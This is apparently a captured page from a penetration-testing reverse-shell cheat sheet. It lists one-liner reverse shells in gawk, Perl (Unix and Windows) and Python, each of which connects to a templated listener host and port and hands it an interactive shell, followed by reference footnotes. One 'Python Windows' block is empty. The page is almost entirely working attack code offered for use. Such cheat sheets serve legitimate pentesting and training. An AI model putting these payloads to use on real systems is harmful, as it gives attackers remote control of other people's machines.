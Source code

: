 ### Gawk

```gawk
#!/usr/bin/gawk -f

BEGIN {
    Service = "/inet/tcp/0/{{< param lhost >}}/{{< param lport >}}"
    while (1) {
        do {
            printf "0xffsec>" |& Service
            Service |& getline cmd
            if (cmd) {
                while ((cmd |& getline) > 0)
                    print $0 |& Service
            close(cmd)
            }
        } while (cmd != "exit")
        close(Service)
    }
}
```

### PERL

```sh
perl -e 'use Socket;$i="{{< param lhost >}}";$p={{< param lport >}};socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'
```

### PERL Windows

```sh
perl -MIO -e '$c=new IO::Socket::INET(PeerAddr,"{{< param lhost >}}:{{< param lport >}}");STDIN->fdopen($c,r);$~->fdopen($c,w);system$_ while<>;'
```

### Python

```sh
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("{{< param lhost >}}",{{< param lport >}}));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```

### Python Windows

```sh
```

[^pentestmonkey]: “Reverse Shell Cheat Sheet | Pentestmonkey.” Pentestmonkey | Taking the Monkey Work out of Pentesting, http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet.
[^nc-openbsd]: “Nc.Openbsd.” Man Pages Archive - Manned.Org, https://manned.org/nc.openbsd/6f0a5cf9.
[^swisskyrepo-shells]: swisskyrepo. “PayloadsAllTheThings/Reverse Shell Cheatsheet.Md at Master · Swisskyrepo/PayloadsAllTheThings · GitHub.” GitHub, https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md.
[^groovy-shell]: Frohoff, Chris. “Pure Groovy/Java Reverse Shell .” Gist · GitHub, 262588213843476, https://gist.github.com/frohoff/fed1ffaab9b9beeb1c76.
[^cert-pinning]: “Certificate and Public Key Pinning Control.” OWASP Foundation | Open Source Foundation for Application Security, https://owasp.org/www-community/controls/Certificate_and_Public_Key_Pinning.
[^openssl]: OpenSSL Foundation, Inc. “/Docs/Manmaster/Man1/Openssl.Html.” OpenSSL.Org, https://www.openssl.org/docs/manmaster/man1/openssl.html.
[^ncat]: “Ncat Users’ Guide.” Nmap: The Network Mapper - Free Security Scanner, https://nmap.org/ncat/guide/index.html.
[^terminal-shell-console]: “What Is the Exact Difference between a ‘Terminal’, a ‘Shell’, a ‘tty’ and a ‘Console’? .” Unix & Linux Stack Exchange, https://unix.stackexchange.com/a/4132/356054.
[^python-pty-module]: “Pty — Pseudo-Terminal Utilities.” 3.8.3 Documentation, https://docs.python.org/3/library/pty.html.
[^stty]: “Stty.” Linux Manual Page, https://man7.org/linux/man-pages/man1/stty.1.html.